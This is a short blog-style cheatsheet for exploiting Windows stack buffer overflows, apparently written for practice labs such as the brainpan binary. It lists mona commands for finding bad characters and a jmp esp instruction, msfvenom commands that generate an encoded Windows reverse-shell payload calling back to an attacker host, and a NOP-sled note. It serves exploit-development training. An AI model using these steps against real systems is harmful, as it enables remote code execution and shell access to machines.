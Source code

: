 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### This is all after getting control of EIP

Set a **working folder** <br>
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray
``!mona bytearray``

Generate bytearray excluding a certain badchar
`!mona bytearray -cpb "\x00"`
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`


List all available programs
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode
`NOPS= "x90"*16`